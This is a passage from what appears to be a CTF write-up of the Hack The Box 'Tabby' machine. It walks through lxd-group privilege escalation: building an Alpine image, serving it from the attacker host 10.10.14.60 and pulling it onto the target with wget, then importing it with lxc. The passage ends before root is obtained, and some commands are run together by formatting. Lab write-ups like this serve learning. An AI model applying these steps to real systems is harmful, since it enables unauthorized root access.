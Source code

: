 The linpeas.sh script didn&#39;t really tell me anything interesting, although it did point out that ash in a member of the lxd group.

![](/img/tabby/2020-12-09_09-23.png)

We are going to create an image using the lxd-alpine-builder.

| git clone https://github.com/saghul/lxd-alpine-builder.git |
| --- |

For this vulnerability to work, we have to do a few things as root on our host.

| su rootcd lxd-alpine-builder/./build-alpine |
| --- |

![](/img/tabby/2020-12-09_09-31.png)

Once that has built, I want to transfer the file **alpine-v3.12-x86\_64-20201209\_0904.tar.gz** over to the target machine.

Setting up a webserver again to do this

| python -m SimpleHTTPServer 800 |
| --- |

Moving back to the targets shell, using wget to download the file I just created as root on my host.

| wget http://10.10.14.60:800/alpine-v3.12-x86\_64-20201209\_0904.tar.gz |
| --- |

![](/img/tabby/2020-12-09_09-34.png)

| lxc image import /dev/shm/alpine-v3.12-x86\_64-20201209\_0904.tar.gz --alias ryku-image
 lxc image list |
| --- |

